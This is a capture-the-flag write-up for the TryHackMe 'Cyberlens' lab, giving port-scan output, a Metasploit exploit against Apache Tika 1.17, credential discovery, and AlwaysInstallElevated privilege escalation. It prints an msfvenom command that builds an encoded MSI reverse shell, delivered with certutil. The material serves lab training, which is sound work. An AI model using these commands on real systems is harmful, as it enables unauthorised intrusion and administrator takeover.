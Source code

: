 -------------

### CTF: THM
### LAB: Cyberlens

--------------

- Rustscan's output

```bash
❯ rustscan -a 10.10.13.13 -- -Pn -sC -sV
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
🌍HACK THE PLANET🌍

[~] The config file is expected to be at "/home/sensei/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.13.13:139
Open 10.10.13.13:135
Open 10.10.13.13:445
Open 10.10.13.13:3389
Open 10.10.13.13:5985
Open 10.10.13.13:7680
Open 10.10.13.13:47001
Open 10.10.13.13:49664
Open 10.10.13.13:49665
Open 10.10.13.13:49666
Open 10.10.13.13:49667
Open 10.10.13.13:49668
Open 10.10.13.13:49669
Open 10.10.13.13:49670
Open 10.10.13.13:49674
Open 10.10.13.13:61777
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-06 04:56 WAT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 04:56
Completed NSE at 04:56, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 04:56
Completed NSE at 04:56, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 04:56
Completed NSE at 04:56, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 04:56
Completed Parallel DNS resolution of 1 host. at 04:56, 0.03s elapsed
DNS resolution of 1 IPs took 0.03s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 04:56
Scanning 10.10.13.13 [16 ports]
Discovered open port 445/tcp on 10.10.13.13
Discovered open port 139/tcp on 10.10.13.13
Discovered open port 135/tcp on 10.10.13.13
Discovered open port 3389/tcp on 10.10.13.13
Discovered open port 49670/tcp on 10.10.13.13
Discovered open port 49665/tcp on 10.10.13.13
Discovered open port 49667/tcp on 10.10.13.13
Discovered open port 5985/tcp on 10.10.13.13
Discovered open port 49674/tcp on 10.10.13.13
Discovered open port 49668/tcp on 10.10.13.13
Discovered open port 49664/tcp on 10.10.13.13
Discovered open port 49666/tcp on 10.10.13.13
Discovered open port 47001/tcp on 10.10.13.13
Discovered open port 61777/tcp on 10.10.13.13
Discovered open port 49669/tcp on 10.10.13.13
Discovered open port 7680/tcp on 10.10.13.13
Completed Connect Scan at 04:56, 0.37s elapsed (16 total ports)
Initiating Service scan at 04:56
Scanning 16 services on 10.10.13.13
Service scan Timing: About 50.00% done; ETC: 04:58 (0:00:53 remaining)
Completed Service scan at 04:57, 57.08s elapsed (16 services on 1 host)
NSE: Script scanning 10.10.13.13.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 04:57
Completed NSE at 04:57, 11.30s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 04:57
Completed NSE at 04:57, 2.48s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 04:57
Completed NSE at 04:57, 0.00s elapsed
Nmap scan report for 10.10.13.13
Host is up, received user-set (0.18s latency).
Scanned at 2024-12-06 04:56:17 WAT for 72s

PORT      STATE SERVICE       REASON  VERSION
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack
3389/tcp  open  ms-wbt-server syn-ack Microsoft Terminal Services
|_ssl-date: 2024-12-06T16:52:26+00:00; +12h54m57s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: CYBERLENS
|   NetBIOS_Domain_Name: CYBERLENS
|   NetBIOS_Computer_Name: CYBERLENS
|   DNS_Domain_Name: CyberLens
|   DNS_Computer_Name: CyberLens
|   Product_Version: 10.0.17763
|_  System_Time: 2024-12-06T16:52:13+00:00
| ssl-cert: Subject: commonName=CyberLens
| Issuer: commonName=CyberLens
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-12-05T16:49:28
| Not valid after:  2025-06-06T16:49:28
| MD5:   7eae:ac23:c002:9ab2:acb4:1df8:a3e3:cd22
| SHA-1: 62a1:548b:5e82:f693:d6c9:80c3:ce7c:1499:ec6d:94ce
| -----BEGIN CERTIFICATE-----
| MIIC1jCCAb6gAwIBAgIQST7kOJnmgbZK9dCvh9S6oDANBgkqhkiG9w0BAQsFADAU
| MRIwEAYDVQQDEwlDeWJlckxlbnMwHhcNMjQxMjA1MTY0OTI4WhcNMjUwNjA2MTY0
| OTI4WjAUMRIwEAYDVQQDEwlDeWJlckxlbnMwggEiMA0GCSqGSIb3DQEBAQUAA4IB
| DwAwggEKAoIBAQCl/+W1wIfcxL3qN1mAPe0Pgia9AvZSr4nClgMxXHekbvl/7Zbq
| NswodClgotMb4xJIf5ZfpEZwSIT8CnaQYcfFiKwj/jh/eHZBYyzBt8KRKJ19Eday
| tUEPPPA07Z9Mgx8dX6JY7K0v1qEbAufgkAY9dtR89sc06AnJ8eZ5anFc1R6p/zkw
| 67DoiNgmCAKHKxvxvSWoCe51qZN/tvIoVZ9F8PJCWBCi+61lS3m2y8rinbsxr/e+
| 8qQVdKp2jWmZhKxsueZXviEWkO+31nmIO+m7XGZuYMOWb3X9JrrDLOaQ+wdhsH/j
| JBcxL8VMHLoDE0lF0TZOZpMVR39rn+AhtdgxAgMBAAGjJDAiMBMGA1UdJQQMMAoG
| CCsGAQUFBwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG9w0BAQsFAAOCAQEAdnw81bEk
| o8xvqdqATo/etA1oZpArrqJnbAbU4vUZaKM3jrHrqQDkYxRS6p/D5UEsRR+/WVVf
| SLBZ58RHIKsI3aWqKQKcSfT/W5ybS5EatHxnHADgocJeXdyTYbGdWzqFK+sjMRGa
| Li58stL/iL3LiJshRqHgLkpcuObmTqy6gKuh5InB3IYL4P7wCM0vMQHp8/yWeXLj
| dp/VPVYxp1atSa1tpdFj0DK/2a0yg123kKUUiYneL83FbuRVes71Ye7MFE/qIrXP
| j2RykwiVbUYweX/5KlkbU1TpNeR63MHo5t+L/0vvZzgSMk/kYLBB9GdFnDdaZgf2
| 3EQfiI29ZOpsHg==
|_-----END CERTIFICATE-----
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7680/tcp  open  pando-pub?    syn-ack
47001/tcp open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack Microsoft Windows RPC
49674/tcp open  msrpc         syn-ack Microsoft Windows RPC
61777/tcp open  http          syn-ack Jetty 8.y.z-SNAPSHOT
|_http-server-header: Jetty(8.y.z-SNAPSHOT)
|_http-cors: HEAD GET
| http-methods: 
|   Supported Methods: POST GET PUT OPTIONS HEAD
|_  Potentially risky methods: PUT
|_http-title: Welcome to the Apache Tika 1.17 Server
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 3196/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 30333/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 2586/udp): CLEAN (Failed to receive data)
|   Check 4 (port 36170/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2024-12-06T16:52:15
|_  start_date: N/A
|_clock-skew: mean: 12h54m56s, deviation: 0s, median: 12h54m56s
```

- The target is a window server.On port 61777,the server is hosting an `Apache Tika 1.17.0`.This version of Apache TIka is vulnerable to RCE as stated in [exploitdb](https://www.exploit-db.com/exploits/47208) and was able to get an exploit on metasploit.

![image](https://github.com/user-attachments/assets/66c8531d-48b0-4196-a15d-d99d2b69d018)

- I set the options as shown below.The reverse_shell module's  settings is the same as the stager settings.

![image](https://github.com/user-attachments/assets/b68f6bfc-6cc7-4cb6-b844-a191aa876a3d)

- Shell access

![image](https://github.com/user-attachments/assets/18783f0d-bf50-4c0f-bbd4-a354e9b769dd)

### Horizontal PrivEsc with exposed credentials

- I checked the user `CyberLens` folder `Documents\Management` and discovered a txt file containing rdp credntials for user `CyberLens`.

![image](https://github.com/user-attachments/assets/c60a53f5-d250-41ac-9df5-43bd1e6b8eff)

- RDP access with Remmina.

![image](https://github.com/user-attachments/assets/0451f8bf-5259-4ed1-8366-0da81b31591b)

### Privesc with Always Install Elevated

- I ran the registy query to check if AlwaysInstallElevated is set to 0x1.This means a user can install a Microsoft Windows package with adminstrative privileges.

Query-

```ps1
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

![image](https://github.com/user-attachments/assets/70a1b658-9f47-4fef-8361-70c0344324f1)

- I generated an msi payload with msfvenom with the ``one liner below.

```bash
msfvenom --platform windows --arch x64 --payload windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=80 --encoder x64/xor --iterations 9 --format msi --out wuzzwuzz.msi
```

![image](https://github.com/user-attachments/assets/a169f6ee-2a3a-438b-bef6-cb00ec42b042)

- I received it on the victim machine with `certutil.exe` and executed the msi executable.

![image](https://github.com/user-attachments/assets/da27b439-0788-47ed-be89-0eff7478ae21)

- Adminstrator shell

![image](https://github.com/user-attachments/assets/a418bfe9-ebbc-44a0-ad01-e1ff0a03b29e)

------------

### THANKS FOR READING

------------

### REFERENCES-:

------------

- [Apache Tika](https://www.exploit-db.com/exploits/47208)
- [AlwaysElevatedInstall](https://dmcxblue.gitbook.io/red-team-notes/privesc/unquoted-service-path)

------------











